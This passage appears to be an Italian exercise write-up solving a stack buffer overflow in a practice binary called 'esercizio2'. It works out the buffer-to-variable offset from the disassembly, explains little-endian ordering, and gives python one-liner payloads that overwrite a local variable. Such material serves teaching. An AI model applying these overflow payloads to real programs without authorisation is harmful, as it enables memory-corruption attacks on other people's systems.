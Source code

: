 ```
0x080484b0 <+69>: pushl -0xc(%ebp)
0x080484b3 <+72>: push $0x8048584
0x080484b8 <+77>: call 0x8048320 <printf@plt>
0x080484bd <+82>: add $0x10,%esp
0x080484c0 <+85>: mov $0x0,%eax
0x080484c5 <+90>: mov -0x4(%ebp),%ecx
0x080484c8 <+93>: leave
0x080484c9 <+94>: lea -0x4(%ecx),%esp
0x080484cc <+97>: ret
```

### Allocazione nello Stack

- `pluto` si trova a `-0xc(%ebp)`
- Il buffer `buf` inizia a `-0x27(%ebp)`

Calcoliamo la distanza:

```
0x27 - 0xc = 0x1b (27 in decimale)
```

Serve scrivere 27 byte prima di sovrascrivere `pluto`.

### Confronto con 0x414243

A riga <+39>, viene eseguito:

```
cmp 0x414243, -0xc(%ebp)
```

`0x414243` in ASCII è `ABC`.

Se forziamo:
```bash
python3 -c 'print("A"*27 + "ABC")' | ./esercizio2
```

Output:
```
Sbagliato! Pluto vale: 0x00434241
```

A causa della **little endian** (Intel x86), i byte `ABC` vengono memorizzati come `CBA`. Quindi, effettivamente `pluto` = `0x00434241`.

### Soluzione: Inserire `CBA`

Per settare `pluto = 0x414243`, dobbiamo inserire `CBA (0x434241)` nel payload:

```bash
python3 -c 'print("A"*27 + "CBA")' | ./esercizio2
```
O, analogamente:

```bash
python3 -c 'print("A"*27 + "\x43\x42\x41")' | ./esercizio2
```
